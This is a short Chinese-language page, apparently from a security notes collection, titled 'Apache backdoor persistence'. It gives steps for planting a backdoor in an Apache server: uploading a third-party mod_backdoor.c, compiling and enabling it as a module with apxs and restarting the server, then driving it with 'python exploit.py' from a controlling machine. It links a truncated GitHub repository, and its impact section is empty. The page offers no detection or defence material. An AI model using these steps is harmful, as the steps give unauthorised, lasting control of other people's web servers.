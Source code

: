 Apache后门维持
==============

一、漏洞简介
------------

通过运行第三方脚本，实现维持后门的方法

二、漏洞影响
------------

三、复现过程
------------

https://github.com/ianxtianxt/apache-

### 1、上传 mod\_backdoor.c到服务器，并执行命令

    apxs -i -a -c mod_backdoor.c && service apache2 restart

![](./resource/Apache后门维持/media/rId25.jpg)

### 2、控制端执行方法

    python exploit.py 127.0.0.1 80

image
